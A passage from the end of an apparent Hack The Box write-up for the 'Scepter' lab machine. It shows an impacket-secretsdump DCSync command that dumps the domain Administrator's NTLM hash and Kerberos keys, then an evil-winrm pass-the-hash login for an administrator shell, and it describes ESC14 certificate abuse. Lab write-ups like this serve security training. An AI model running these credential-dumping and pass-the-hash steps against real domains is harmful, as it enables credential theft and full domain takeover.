 Start `DCSync`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ impacket-secretsdump -k -no-pass 'scepter.htb/p.adams@dc01.scepter.htb' -just-dc-user Administrator

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
Administrator:des-cbc-md5:f79d45bf688aa238
[*] Cleaning up... 
```

Then we can use `evil-winrm` to get the shell as administrator
```
evil-winrm -i 10.10.11.65 -u Administrator -H 'a291ead3493f9773dc615e66c2ea21c4'
```

# Description

This machine mainly exploits the abuse of the certificate authentication part, especially the exploit of ESC 14. It is an AD domain machine that is worth studying and reviewing repeatedly.
